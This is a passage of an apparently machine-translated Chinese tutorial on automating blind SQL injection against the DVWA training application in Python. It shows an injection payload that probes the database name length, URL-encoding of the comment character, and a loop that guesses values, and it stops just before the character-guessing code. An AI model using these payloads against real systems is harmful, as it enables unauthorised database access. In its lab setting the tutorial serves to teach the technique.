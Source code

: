 它接受可变数量的参数，格式化查询，并使用来自 utils 的解析器来获得响应。很明显，这里没有强大的错误检查功能，但是我们的目标是取代打嗝，尽可能多地学习盲 SQL 注入，而不是软件架构！

# 第 2 步:管理登录到 DVWA 和 CSRF 令牌

我提供给你的类负责管理登录和整个会话，在某种程度上隐藏了所有的内部。
如果你想在 DVWA 中操作，你只需要把你所有的代码放到 with 子句中，并在 DVWASessionProxy 上使用 GET/POST 方法，就像你处理来自[请求](https://requests.readthedocs.io/en/latest/)的经典[会话](https://requests.readthedocs.io/en/latest/api/?highlight=session#requests.Session)一样。

您也可以直接从代理设置安全属性。

这是一个最小的例子:

```
with DVWASessionProxy(BASE_URL) as s:
    s.security = SecurityLevel.LOW
    # Put here your code
```

好了，我们完成了准备工作，是时候写我们的主函数了，但是在开始真正的代码之前，我们必须在一个非常明显的地方写一个包含目标 IP 的变量。

这是必需的，因为它对于每个实例都是变化的，所以让我们声明它:

```
if __name__ == "__main__":
    BASE_URL = "http://10.10.227.17" #change this value with the ip of DVWA machine
    sqli_blind_url = f"{BASE_URL}/vulnerabilities/sqli_blind"
```

# 步骤 3:在一次盲目的 SQLi 攻击中获取数据库名称

我们不能像对 SQL 注入那样简单地打印数据库的名称，所以在这种情况下，我们需要得到长度，然后尝试逐个字符地猜测。

我们已经从介绍中的 GUI 看到没有输入控件，所以我们可以利用这一点。
首先，我们需要运行这样一个查询:
`"1' AND LENGTH(DATABASE()) = n #"`

其中 *n* 变化。
**有一个小问题，URL 中的 hashtag 表示那个的结束(** [**这里**](/how-to-exploit-dom-xss-on-dvwa-stackzero-c83a682ed7b7) **可以看到一个解释)，所以我们要用它的 URL 编码的等价物来代替:“%23”。**

所以我们可以选择一个任意长的 n 并循环，直到响应包含了*“exists”*单词。

在 python 中我们是这样做的:

```
query = "1' AND LENGTH(DATABASE()) = {} %23"
        length = 0
for i in range(10):
    if get_query_result(s, sqli_blind_url, query, i):
        print(f"[+] The DB's name length is {i}")
        length = i
```

一旦我们将数据库名称的长度保存到一个变量中，我们就可以试着猜测它。

这一次，我们要检查字符串从第一个位置到最后一个位置的每个字符，并与每个可能的字符进行比较。
显然，如果我们猜测字符，应用程序将返回*“用户 id 存在……”*。我们只需要构建一个包含所有正确字符的字符串。
代码是:
